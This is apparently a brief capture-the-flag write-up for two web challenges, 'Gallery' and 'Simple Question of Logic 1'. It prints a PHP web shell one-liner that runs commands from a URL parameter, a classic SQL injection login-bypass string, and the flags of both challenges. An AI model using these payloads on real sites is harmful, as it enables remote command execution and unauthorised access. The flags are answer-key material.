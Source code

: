 ## Gallery
web shell oneliner (must end w/ .php)
```php
$ <?php echo system($_GET["cmd"]); ?>
```
flag : ``
oh_no!_it_was_not_an_img
``

## Simple Question of Logic 1
use this in both fields ([ctf101](https://ctf101.org/web-exploitation/sql-injection/what-is-sql-injection/) . [sqlmap](https://d00mfist.gitbooks.io/ctf/content/sql-injections.html) . [hacktricks](https://book.hacktricks.xyz/pentesting-web/login-bypass))

```
x' or '1'='1
x' or '1'='1
```

flag : ``
Th1s_0n3_w4s_34sY!!!
``